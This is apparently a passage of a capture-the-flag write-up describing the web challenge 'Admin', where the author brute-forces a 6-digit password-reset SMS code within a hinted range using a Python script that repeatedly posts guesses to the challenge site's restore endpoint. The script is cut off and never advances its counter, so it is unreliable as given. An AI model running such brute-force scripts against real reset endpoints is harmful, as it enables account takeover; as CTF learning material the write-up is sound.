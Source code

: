 ![gambar2](img/doorparadox2.png)

---

### Admin (957 pts)
**Category: Web**  
Challenge Description:
> I'm not an expert, but it seems to me that something needs to be hacked here

Challenge Link : http://sherlock-message.ru/admin

This challenge is on the same site as `Door Paradox`

I stack on this challenge for long time until organizers give 2 hints which are
- just one million possible combinations..
- I think the code is somewhere between **260000** and **280000**

There is `forgot your password` button on the site that ask for 6 digit secret code so as what i guess before we just need to bruteforce the code, and because the hint says its around 260000 and 280000 so we only need to bruteforce numbers between them

Here's the script i made to do so:
```python
import requests 
  
# defining the api-endpoint  
API_ENDPOINT = "http://sherlock-message.ru/api/admin.restore"
  
i = 260000
hash = 'a48659a0024e30fdf1ff41dfee1acf69'
need_sms = True

while(need_sms) :

    print("sms_code = ", i)
    print("need_sms = ", need_sms)

    data = {'hash':hash, 
            'sms_code':i,} 

    r = requests.post(url = API_ENDPOINT, data = data) 

    data = r.json()
    if data['response'] != 'Incorrect hash' :
        hash = data['response']['new_hash']
```